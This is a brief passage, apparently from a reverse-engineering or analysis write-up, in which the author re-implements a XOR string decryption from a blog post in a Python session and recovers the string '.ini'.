Re-implementing the decryption algorithm shown in the blog post on the string we a curious about, we get the same answer as in the blog post.
```Python
midas@Slave ~> python3
Python 3.7.3 (default, Oct 31 2022, 14:04:00)
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> enc_str = "g\u001d/."
>>> key = "ItAGEocK"
>>>
>>> dec_str = ""
>>> for i, c in enumerate(enc_str):
...     dec_str += chr(ord(c) ^ ord(key[i % len(key)]))
...
>>> dec_str
'.ini'
```
`ini`